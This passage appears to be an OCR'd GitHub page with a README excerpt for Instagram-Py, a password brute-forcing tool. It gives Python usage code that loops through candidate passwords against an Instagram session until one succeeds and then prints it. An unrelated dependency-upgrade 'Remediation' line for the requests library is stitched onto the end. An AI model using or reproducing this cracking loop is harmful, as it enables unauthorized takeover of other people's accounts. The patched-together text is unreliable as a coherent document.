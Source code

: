 '''
 Defining @param cli = None will make Instagram-Py run silently so you
 can you use your own interface if you like.
 or if you want to use the official interface then declare like this

 instagrampy = InstagramPyInstance(cli = cli , session = session)

'''

instagrampy = InstagramPyInstance(cli = None ,session = session)
while not instagrampy.PasswordFound():
       print('Trying... '+session.CurrentPassword())
       instagrampy.TryPassword()

if instagrampy.PasswordFound():
       print('Password Found: '+session.CurrentPassword())

exit(0)
Refer the Wiki to get full information about the api , https://github.com/deathsec/instagram-py/wiki

Remediation
Upgrade requests to version 2.20.0 or later. For example:

requests>=2.20.0
